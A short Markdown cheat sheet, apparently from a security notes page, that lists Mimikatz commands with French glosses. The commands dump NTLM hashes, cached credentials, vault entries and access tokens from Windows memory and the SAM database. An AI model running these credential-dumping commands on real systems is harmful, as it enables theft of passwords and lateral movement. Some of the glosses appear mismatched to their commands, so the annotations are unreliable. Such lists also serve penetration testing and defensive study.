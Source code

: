 ### Mimikatz

privilege::debug
sekurlsa::logonpasswords (hash ntlm en mémoire)
vault::cred (sha1 en memoire)
vault::list (mots de passe en mémoire)
token::list (mots de pass issue du credential manager)
token::elevate (access tokens)
lsadump::sam (hash ntlm de la base sam)
lsadump::secrets (hash MS-cache)
lsadump::cache

